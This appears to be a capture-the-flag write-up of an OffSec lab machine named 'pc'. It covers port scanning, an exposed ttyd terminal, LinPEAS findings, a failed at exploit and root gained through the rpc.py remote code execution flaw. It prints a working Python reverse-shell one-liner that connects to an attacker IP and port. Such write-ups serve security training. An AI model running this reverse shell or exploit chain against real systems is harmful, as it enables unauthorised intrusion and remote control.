


# pc (rough notes)

1) Enumerate services with `nmap`

```
┌──(kali㉿kali)-[~/Desktop/src/offsec/vpn_profiles]
└─$ nmap -Pn -v -p- -T4 pc     
...

PORT     STATE SERVICE
22/tcp   open  ssh
8000/tcp open  http-alt
```

2) And then again with service fingerprinting

```
┌──(kali㉿kali)-[~/Desktop/src/offsec/vpn_profiles]
└─$ nmap -v -Pn -p 22,8000 -A pc
...

PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 62:36:1a:5c:d3:e3:7b:e1:70:f8:a3:b3:1c:4c:24:38 (RSA)
|   256 ee:25:fc:23:66:05:c0:c1:ec:47:c6:bb:00:c7:4f:53 (ECDSA)
|_  256 83:5c:51:ac:32:e5:3a:21:7c:f6:c2:cd:93:68:58:d8 (ED25519)
8000/tcp open  http-alt ttyd/1.7.3-a2312cb (libwebsockets/3.2.0)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: ttyd - Terminal
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 Not Found
|     server: ttyd/1.7.3-a2312cb (libwebsockets/3.2.0)
|     content-type: text/html
|     content-length: 173
|     <html><head><meta charset=utf-8 http-equiv="Content-Language" content="en"/><link rel="stylesheet" type="text/css" href="/error.css"/></head><body><h1>404</h1></body></html>
|   GetRequest: 
|     HTTP/1.0 200 OK
|     server: ttyd/1.7.3-a2312cb (libwebsockets/3.2.0)
|     content-type: text/html
|     content-length: 677047
|     <!DOCTYPE html><html lang="en"><head><meta charset="UTF-8"><meta http-equiv="X-UA-Compatible" content="IE=edge,chrome=1"><title>ttyd - Terminal</title><link rel="icon" type="image/png" href="data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAACAAAAAcCAYAAAAAwr0iAAAAGXRFWHRTb2Z0d2FyZQBBZG9iZSBJbWFnZVJlYWR5ccllPAAAA0xpVFh0WE1MOmNvbS5hZG9iZS54bXAAAAAAADw/eHBhY2tldCBiZWdpbj0i77u/IiBpZD0iVzVNME1wQ2VoaUh6cmVTek5UY3prYzlkIj8+IDx4OnhtcG1ldGEgeG1sbnM6eD0iYWRvYmU6bnM6bWV0YS8iIHg6eG1wdGs9IkFkb2JlIFhNUCBDb3JlIDUuNi1jMDY3IDc5LjE1Nzc0NywgMjAxNS8wMy8zMC0yMzo0MDo0MiAgICAgICAgIj4gPHJkZjpSREYgeG1sbnM6cmRmPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5LzAyLzIyLXJkZi1zeW50YXgtbnMjIj4gPHJkZjpEZXNjcmlwdGlvbiByZGY6YWJvdXQ9IiIgeG1sbnM6eG1wTU09Imh0dHA6Ly9ucy5hZG9iZS5jb20veGFwLzEuMC9tbS8iIHhtbG5zOnN0UmVmPSJodHRwOi8vb
|   Socks5, X11Probe: 
|     HTTP/1.0 403 Forbidden
|     server: ttyd/1.7.3-a2312cb (libwebsockets/3.2.0)
|     content-type: text/html
|     content-length: 173
|_    <html><head><meta charset=utf-8 http-equiv="Content-Language" content="en"/><link rel="stylesheet" type="text/css" href="/error.css"/></head><body><h1>403</h1></body></html>
|_http-server-header: ttyd/1.7.3-a2312cb (libwebsockets/3.2.0)
          (... omitted additional info ...)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

So, what we care about is `ttyd/1.7.3-a2312cb (libwebsockets/3.2.0)`...

It's some kind of tty server:



We run linpeas, and find that `/bin/at` is vulnerable, CVE-2002-1614.

```
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
           ( ... not all output shown ...)
-rwsr-sr-x 1 daemon daemon 55K Nov 12  2018 /usr/bin/at  --->  RTru64_UNIX_4.0g(CVE-2002-1614)
```

See https://www.exploit-db.com/exploits/281

```
┌──(kali㉿kali)-[~]
└─$ searchsploit bin/at
-------------------------------------------------------------- ---------------------------------
 Exploit Title                                                |  Path
-------------------------------------------------------------- ---------------------------------
Tru64 UNIX 4.0g - '/usr/bin/at' Local Privilege Escalation    | tru64/local/281.c
-------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

I spend a while messing around with that, fixing up the code and compiling executables on the machine - with no success. If you are curious of that code -- see [281-modified.c](./exploit/281-modified.c) in the exploit subdir.

I run LinPEAS again, I must've missed something. The output of LinPEAS is too big to fit this web-terminal's history... I get annoyed at the shitty terminal so I start a reverse shell with python and capture it in Kali with a local listener...

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.239", 4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import 
pty; pty.spawn("/bin/bash")'
```

This time I notice a couple more things:

- There is some extraneous python process run by `root`

```
root         991  0.1  1.2  31980 24496 ?        S    02:25   0:04  _ python3 /opt/rpc.py
```
- Potentially vulnerable snapd?

```
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
           ( ... not all output shown ...)
-rwsr-xr-x 1 root root 144K May 29  2023 /usr/lib/snapd/snap-confine  --->  Ubuntu_snapd<2.37_dirty_sock_Local_Privilege_Escalation(CVE-2019-7304)
-rwsr-xr-x 1 root root 129K Aug  4  2023 /snap/snapd/19993/usr/lib/snapd/snap-confine  --->  Ubuntu_snapd<2.37_dirty_sock_Local_Privilege_Escalation(CVE-2019-7304)
-rwsr-xr-x 1 root root 129K May 27  2023 /snap/snapd/19457/usr/lib/snapd/snap-confine  --->  Ubuntu_snapd<2.37_dirty_sock_Local_Privilege_Escalation(CVE-2019-7304)
```

Looking at the `rpc.py` python file first...

```
user@pc:/opt$ cat rpc.py
cat rpc.py
from typing import AsyncGenerator
from typing_extensions import TypedDict

import uvicorn
from rpcpy import RPC

app = RPC(mode="ASGI")

@app.register
async def none() -> None:
    return

@app.register
async def sayhi(name: str) -> str:
    return f"hi {name}"

@app.register
async def yield_data(max_num: int) -> AsyncGenerator[int, None]:
    for i in range(max_num):
        yield i

D = TypedDict("D", {"key": str, "other-key": str})

@app.register
async def query_dict(value: str) -> D:
    return {"key": value, "other-key": value}

if __name__ == "__main__":
    uvicorn.run(app, interface="asgi3", port=65432)
```

After reading the code I realize the LinPEAS result show an active listener on this app's port 65432...

Maybe `rpc.py` is vulnerable to something?

```
┌──(kali㉿kali)-[~]
└─$ searchsploit rpc.py
----------------------------------------------- ---------------------------------
 Exploit Title                                 |  Path
----------------------------------------------- ---------------------------------
rpc.py 0.6.0 - Remote Code Execution (RCE)     | python/remote/50983.py
----------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Some more stuff I find on the internet:

- [CVE-2022-35411](https://nvd.nist.gov/vuln/detail/CVE-2022-35411)
- https://www.exploit-db.com/exploits/50983
- https://github.com/ehtec/rpcpy-exploit

I modify the file to run the command I want (a reverse shell in python), see [50983-modified.py](./exploit/50983-modified.py) in the exploit subdir.

I run it in the browser shell (ttyd server) and I catch a shell as root in a local listener!

> I got the exploit script into the remote server through serving it via HTTP on the Kali vm.



I submit the flag, and it gives me a full score. No local-user flag in this box.